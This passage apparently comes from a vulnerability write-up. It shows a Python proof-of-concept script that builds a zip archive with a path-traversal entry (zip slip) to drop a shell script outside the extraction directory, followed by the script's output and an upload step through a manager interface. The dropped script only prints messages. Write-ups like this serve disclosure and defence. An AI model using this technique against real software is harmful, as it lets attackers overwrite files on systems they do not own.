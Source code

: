 ```python
</manifest>''')

# Create the malicious payload
with open("pkg_content/malicious.sh", "w") as f:
    f.write('''#!/bin/bash
echo "System compromised via zip slip"
echo "This file was written outside the intended directory"
''')
os.chmod("pkg_content/malicious.sh", 0o755)

# Create a zip file with the malicious path traversal
with zipfile.ZipFile("malicious_pkg.zip", "w") as zf:
    # Add legitimate files with normal paths
    zf.write("pkg_content/example.txt", "PKG/RESOURCES/example.txt")
    zf.write("pkg_content/README.md", "PKG/README.md")
    zf.write("pkg_content/MANIFEST.xml", "PKG/MANIFEST.xml")
    # This is where the zip slip happens - the path inside the zip includes "../.."
    zf.write("pkg_content/malicious.sh", "PKG/RESOURCES/../../../malicious.sh")

print("Created malicious_pkg.zip with zip slip vulnerability")
print("Contents of the zip file:")
with zipfile.ZipFile("malicious_pkg.zip", "r") as zf:
    for info in zf.infolist():
        print(f"  {info.filename}")

print("\nWhen extracted without proper path validation,")
print("malicious.sh will be written outside the intended extraction directory")

# Clean up temporary files
import shutil
shutil.rmtree("pkg_content")
```

We can run and upload the file using the manager interface:
```bash
$ python3 exploit.py

Created malicious_pkg.zip with zip slip vulnerability
Contents of the zip file:
  PKG/RESOURCES/example.txt
  PKG/README.md
  PKG/MANIFEST.xml
  ../malicious.sh

When extracted without proper path validation,
malicious.sh will be written outside the intended extraction directory
```
We can proceed to upload it:
![](./assets/1.png)